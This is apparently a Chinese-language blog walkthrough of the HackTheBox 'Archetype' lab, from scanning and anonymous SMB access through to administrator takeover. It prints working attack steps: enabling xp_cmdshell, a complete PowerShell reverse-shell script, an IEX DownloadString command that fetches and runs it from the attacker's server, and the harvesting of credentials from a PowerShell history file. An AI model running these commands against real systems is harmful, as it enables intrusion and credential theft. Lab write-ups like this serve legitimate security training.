 ```yaml
---
title: HackTheBox-Archetype
date: 2021-07-13 17:05:21
categories:
- 渗透测试
tags:
- HackTheBox
---
```


## 实验环境

![](https://i.loli.net/2021/07/12/m1YO5GTBC6jqoPt.png)

## 实验过程

### 信息收集

#### nmap扫描：

```
nmap -sC -sV 10.10.10.27
```

-sC：使用默认脚本进行扫描，等同于–script=default
-sV：探测开启的端口来获取服务、版本信息

![](https://i.loli.net/2021/07/12/zqbrwsZEfTkXcOY.png)

可以看到开放端口有四个：135、139、445、1433，1433是SQL Server数据库默认使用的端口，445是文件共享协议（SMB）默认使用的端口

#### 445端口匿名访问

测试445端口的SMB服务是否支持匿名访问，没有经过权限配置可能默认允许所有人无需身份认证来匿名访问共享资源，使用smbclient来访问samba服务器的共享资源：

```
smbclient -N -L //10.10.10.27/
```

-N：匿名登录
-L：获取共享资源列表

![](https://i.loli.net/2021/07/12/NSm3xJlXt7sMAK4.png)

可以看到存在一个backups目录，使用smbclient来访问：

```
smbclient -N //10.10.10.27/backups
```

![](https://i.loli.net/2021/07/12/A8cunJbwH3BphVX.png)

发现存在一个prod.dtsConfig文件,使用get命令下载到本地，查看文件内容，可以看到数据库配置信息：

![](https://i.loli.net/2021/07/12/o17Mu3zfOnsZ5x8.png)

### impacket工具的使用

> 下载地址：https://github.com/SecureAuthCorp/impacket/tree/master

**安装**：

进入impacket目录，执行：

```
pip install .
```

![](https://i.loli.net/2021/07/12/RGXP5Qjl3h6a7WM.png)

用前面获得的账号和密码登录：

```
mssqlclient.py sql_svc@10.10.10.27 -windows-auth
```

![](https://i.loli.net/2021/07/12/JyWYrKpMLvNV1P2.png)

判断当前是否拥有sysadmin权限：

```
SELECT IS_SRVROLEMEMBER('sysadmin')
```

![](https://i.loli.net/2021/07/12/zZmAQyGdqRb5cfC.png)

返回值是1，代表true，说明当前用户具有sysadmin权限，能够在靶机上使用SQL Server的xp_cmdshell来进行远程代码执行

### 使用数据库调用系统命令

依次写入：

```
EXEC sp_configure 'Show Advanced Options', 1;			\\使用sp_configure系统存储过程，设置服务器配置选项，将Show Advanced Options设置为1时，允许修改数据库的高级配置选项
reconfigure;											\\确认上面的操作
sp_configure;											\\查看当前sp_configure配置情况
EXEC sp_configure 'xp_cmdshell', 1						\\使用sp_configure系存储过程，启用xp_cmdshell参数，来允许SQL Server调用操作系统命令
reconfigure;											\\确认上面的操作
xp_cmdshell "whoami" 									\\在靶机上调用cmdshell执行whoami
```

执行结束后，SQL会返回当前数据库进程的操作系统用户为archetype\sql_svc

![](https://i.loli.net/2021/07/12/aIbOdf4lZ71eHyq.png)

### 获得操作系统普通用户权限

我们已经可以在数据库执行系统命令，接下来我们需要反弹一个操作系统shell；

在桌面新建一个powershell的反弹shell文件shell.ps1（**注意将其中的ip修改为HTB分配的ip**）

代码如下：

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.55",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

下面我们搭建一个http服务器，让靶机下载我们的shell.ps1文件；

因为我的shell.ps1文件在桌面，所以也在桌面终端执行搭建http服务器的命令：

```
python3 -m http.server 80
```

![](https://i.loli.net/2021/07/12/BPoClYzDI3T18qk.png)

然后开启一个监听端口，用来接收反弹的shell：

```
nc -lvvp 443
```

![](https://i.loli.net/2021/07/12/SiAqEx789zZYwKJ.png)

接着在数据库shell中执行如下命令，反弹shell：

```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.55/shell.ps1\");"
```

![](https://i.loli.net/2021/07/12/fHnUJF6gtxzmbEO.png)

### 获取普通用户权限的flag

在nc接收的shell中直接执行下面的命令：

```
type C:\Users\sql_svc\Desktop\user.txt
```

![](https://i.loli.net/2021/07/12/L9siVhJlfBKYGam.png)

### 获取系统权限用户的flag

使用下面的命令来访问PowerShell历史记录文件：

```
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

![](https://i.loli.net/2021/07/12/Dc6TqQ7bRgAkK9d.png)

发现administrator用户登录后将共享文件夹\Archetype\backups映射到T盘，后面是administrator用户名和它的密码，可以使用Impacket中的psexec.py来提权：

```
psexec.py administrator@10.10.10.27
```

输入上面获得的密码就可以成功提权

![](https://i.loli.net/2021/07/12/BZmn8vYqEpbcW1k.png)

执行如下命令获得flag：

```
type C:\Users\Administrator\Desktop\root.txt
```

![](https://i.loli.net/2021/07/12/lBtDMgWAsP2nTLb.png)



> 参考：
>
> https://blog.csdn.net/qq_45951598/article/details/115269502
